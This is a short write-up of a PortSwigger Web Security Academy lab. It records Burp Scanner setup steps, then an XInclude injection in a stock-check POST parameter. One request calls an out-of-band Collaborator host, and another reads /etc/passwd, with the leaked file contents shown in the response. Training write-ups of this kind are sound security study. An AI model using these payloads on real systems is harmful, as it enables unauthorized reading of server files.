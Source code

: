 # [Lab: Discovering vulnerabilities quickly with targeted scanning](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning)

## Lab

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

## Scanner

- add to scope
- disable logging out of scope
- scan post request

=> detected: `Issue: Out-of-band resource load (HTTP)`

request:

```http
POST /product/stock HTTP/1.1

productId=%3cxbm%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2fgeynlsnz55idkei212d3x8gpigo9cz00osbiz7.oastify.com%2ffoo%22%2f%3e%3c%2fxbm%3e&storeId=1
```

## Solutions

request:

```http
POST /product/stock HTTP/1.1

productId=%3cxbm%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2fxbm%3e&storeId=1
```

response:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 2284

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```
